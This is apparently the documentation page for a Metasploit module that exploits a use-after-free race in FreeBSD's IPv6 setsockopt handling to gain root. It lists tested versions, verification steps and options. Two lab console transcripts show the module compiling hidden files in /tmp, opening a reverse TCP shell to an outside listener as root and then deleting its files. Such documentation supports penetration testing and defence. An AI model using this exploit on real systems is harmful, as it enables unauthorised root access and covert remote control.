## Vulnerable Application

  This module exploits a race and use-after-free vulnerability in the
  FreeBSD kernel IPv6 socket handling. A missing synchronization lock
  in the `IPV6_2292PKTOPTIONS` option handling in `setsockopt` permits
  racing `ip6_setpktopt` access to a freed `ip6_pktopts` struct.

  This exploit overwrites the `ip6po_pktinfo` pointer of a `ip6_pktopts`
  struct in freed memory to achieve arbitrary kernel read/write.

  This module has been tested successfully on:

  * FreeBSD 9.0-RELEASE #0 (amd64)
  * FreeBSD 9.1-RELEASE #0 r243825 (amd64)
  * FreeBSD 9.2-RELEASE #0 r255898 (amd64)
  * FreeBSD 9.3-RELEASE #0 r268512 (amd64)
  * FreeBSD 12.0-RELEASE r341666 (amd64)
  * FreeBSD 12.1-RELEASE r354233 (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  ### NUM_SPRAY

  Spray iterations (default (`256`)

  ### NUM_SPRAY_RACE

  Race iterations (default: `32`)

  ### ForceExploit

  Override check result (default: `false`)

  ### WritableDir

  A directory where we can write files (default: `/tmp`)


## Scenarios

### FreeBSD 9.3-RELEASE #0 r268512 (amd64)

  ```
  msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc 
  [*] Using configured payload bsd/x64/shell_reverse_tcp
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
  session => 1
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing '/tmp/.SnZgWBMA.c' (14147 bytes) ...
  [*] Compiling /tmp/.SnZgWBMA.c ...
  [*] Writing '/tmp/.d97xapNItz' (218 bytes) ...
  [*] Launching exploit (timeout: 30s) ...
  [*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.142:61848) at 2020-07-09 18:02:09 -0400
  [+] Deleted /tmp/.SnZgWBMA.c
  [+] Deleted /tmp/.SnZgWBMA
  [+] Deleted /tmp/.d97xapNItz

  id
  uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
  uname -a
  FreeBSD freebsd-9-3-amd64 9.3-RELEASE FreeBSD 9.3-RELEASE #0 r268512: Thu Jul 10 23:44:39 UTC 2014     root@snap.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
  ```

### FreeBSD 12.1-RELEASE r354233 (amd64)

  ```
  msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc 
  [*] Using configured payload bsd/x64/shell_reverse_tcp
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
  session => 1
  msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing '/tmp/.V8vZ5.c' (14162 bytes) ...
  [*] Compiling /tmp/.V8vZ5.c ...
  [*] Writing '/tmp/.ok9laPn' (218 bytes) ...
  [*] Launching exploit (timeout: 30s) ...
  [*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.140:35808) at 2020-07-09 18:04:24 -0400
  [+] Deleted /tmp/.V8vZ5.c
  [+] Deleted /tmp/.V8vZ5
  [+] Deleted /tmp/.ok9laPn

  id
  uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
  uname -a
  FreeBSD freebsd-12-1-amd64 12.1-RELEASE FreeBSD 12.1-RELEASE r354233 GENERIC  amd64
  ```

